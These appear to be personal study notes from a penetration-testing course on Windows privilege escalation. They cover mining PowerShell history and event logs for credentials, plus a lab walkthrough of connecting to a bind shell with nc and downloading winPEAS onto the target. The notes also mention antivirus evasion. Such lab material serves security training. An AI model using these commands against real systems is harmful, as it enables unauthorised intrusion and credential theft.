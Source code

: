 PowerShell artifacts such as the history file of PSReadline or transcript files are often a treasure trove of valuable information
+ We should never skip reviewing them, because most Administrators clear their history with Clear-History and therefore, the PSReadline history stays untouched for us to analyze

Administrators can prevent PSReadline from recording commands by setting the _`-HistorySaveStyle`_ option to _`SaveNothing`_ with the _`Set-PSReadlineOption`_ cmdlet 
+ Alternatively, they can clear the history file manually

#### Windows Event Logs
How to search for _PowerShell Script Block Logging_:
```
Go to Event Viewer → Events from Script Block Logging are in Application and Services → Microsoft → Windows → PowerShell → Operational: Click Filter Current Log and search for 4104 events
```
+ These will often contain scripts that were run with credentials

Powershell logs by event ID:
```
Get-EventLog -LogName Application -Source <SOURCE> | Where-Object {$_.EventID -eq <EVENT_ID>} | Select-Object -Property Source, EventID, InstanceId, Message
```

Event by message:
```
Get-EventLog -LogName System -Message *<DESCRIPTION>*
```


### Automated Enumeration
In the previous three sections, we manually enumerated CLIENTWK220
+ We gathered information, which led us to two different ways to elevate our privileges
+ However, this took us quite some time to do
+ In a real-life penetration test for a client, we often have time constraints, limiting the time we can take to enumerate systems in a manual way

Therefore, we should use automated tools that enumerate the target machine and provide us results about situational awareness as well as potential sensitive information in an easy to consume fashion
+ One such tool is <mark style="background: #D2B3FFA6;">winPEAS</mark> 
+ **NOTE**: Automated tools can be blocked by AV solutions. If this is the case, we can apply techniques learned in the Module "Antivirus Evasion", try other tools such as _Seatbelt_ and _JAWS_, or do the enumeration manually

Once we have installed the package **peass** on our Kali system, we can copy the 64-bit binary of winPEAS to our home directory and start a Python3 web server to serve it
```
kali@kali:~$ cp /usr/share/peass/winpeas/winPEASx64.exe .

kali@kali:~$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Let's connect to the bind shell running on port 4444 at CLIENTWK220 as user _dave_ as we did before
+ We start PowerShell and use the _iwr_ Cmdlet with the URL of the winPEAS binary as argument for **-Uri** and **winPeas.exe** for **-Outfile**
```
kali@kali:~$ nc 192.168.50.220 4444
Microsoft Windows [Version 10.0.22000.318]
(c) Microsoft Corporation. All rights reserved.

C:\Users\dave> powershell
powershell
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

Install the latest PowerShell for new features and improvements! https://aka.ms/PSWindows

PS C:\Users\dave> iwr -uri http://192.168.118.2/winPEASx64.exe -Outfile winPEAS.exe
```

[CLIENTWK220]: PS C:\Users\daveadmin\Documents> whoami
[CLIENTWK220]: PS C:\Users\daveadmin\Documents> cd C:\
[CLIENTWK220]: PS C:\Users\daveadmin\Documents> pwd
[CLIENTWK220]: PS C:\Users\daveadmin\Documents> dir